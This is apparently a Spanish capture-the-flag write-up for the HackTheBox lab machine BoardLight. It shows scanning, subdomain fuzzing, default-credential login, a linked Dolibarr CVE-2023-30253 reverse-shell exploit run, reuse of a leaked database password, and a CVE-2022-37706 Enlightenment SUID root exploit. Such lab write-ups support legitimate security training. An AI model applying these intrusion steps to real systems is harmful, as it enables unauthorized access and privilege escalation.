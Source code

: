 # BoardLight

<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/BoardLight.png" alt="BoardLight" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Subdomain Enumeration</li>
        <li>Dolibarr 17.0.0 Exploitation - CVE-2023-30253</li>
        <li>Information Leakage (User Pivoting)</li>
        <li>Enlightenment SUID Binary Exploitation [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.11 -oG allports
```

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p22,80 10.10.10.245 -oN targeted
```

Sin embargo no encontramos nada interesante

## Enumeración de sudominios

Despues de hacer un escaneo de dominios y subdominios he encontrado este subdominio interesante con el siguiente comando:

```shell
wfuzz -c --hl=517 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host:FUZZ.board.htb" http://board.htb
```

```shell
000000072:   200        149 L    504 W      6360 Ch     "crm"   
```

## Inspeccionamos la página web

Nos encontramos un panel de login de un ERP/CRM usa la tecnologia `Doliberr 17.0.0.` 

![alt text](Imagenes/Board.png)

Buscando las credenciales por defecto vemos que podemos usar `admin:admin`y tras probarlo accedemos a la panel y exploramos que tiene , sin embargo no aparece nada interesante.

por lo tanto vamos a buscar si algun exploit relacionado para la version que tenemos.


##  Intrusión - Explotamos CVE-2023-30253
Encontramos un exploit que podemos utilizar para la version en la que nos entabla una shell por lo tanto vamos a intentar utilizarla.

```
https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253
```
Para ello lo hacemos de la siguiente manera:

```shell
python3 exploit.py http://example.com login passsword 127.0.0.1 9001
```
Por último obtenemos la shell
 
```shell
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
[!] If you have not received the shell, please check your login and password

```
## User pivoting

Aunque tenemos acceso al servidor nuestro ususario es `www-data`este ususario no nos sirve para ver la flag de user.txt por lo tanto tenemos que mudarnos al ususario `Larissa` podemos intentar varias opciones:

- La primera es probar fuerza bruta en el servicio `ssh` usando el  diccionario `rockyou` este diccionario tiene multiples contraseñas para probar,sin embargo vemos que no encunetra nada 

- La segunda forma es ver si existen ficheros de configuración y nos encontremos con algún usuario y contraseñas .

De esta manera podemos compronbar que en el achivo de configuración nos aparece un usuario y una contraseña

```
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Si probamos esta contraseña vemos que es la del usuario Larissa

## Escalada de privilegios:

Comprobamos que podemos hacer los comandos sudo -l este comando como otras veces nos reporta si existe algun fichero que podemos ejecutar como root.

Sin embargo no encontramos nada ,por lo tanto vamos a ver si existen ficheros con permisos SUID o capabilities sospechosas para escalar los privilegios.

Si ejecutamos el comando para listar los binarios que pueden permitir el escaldo nos pecatamos de uno en especial: 

```shell
find / -perm -4000 -user root 2>/dev/null
```

```shell
...
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
... 
```
Podemos ver que el sercicio `enlightenment` es vulnerable comprobamos la version es 0.23.1

## Explotamos el CV-2022-37706
Como se puede ver ene el siguiente enlace encontramos que exploit vulnerable que nos puede devolver una shell con privilegios abusando de este servicio 
```
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit?tab=readme-ov-file
```
Para ello generamos el fichero en nuestro directorio `tmp` y una vez que tenemos esto
ejecutamos el script:

```shell
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# whoami
root

```




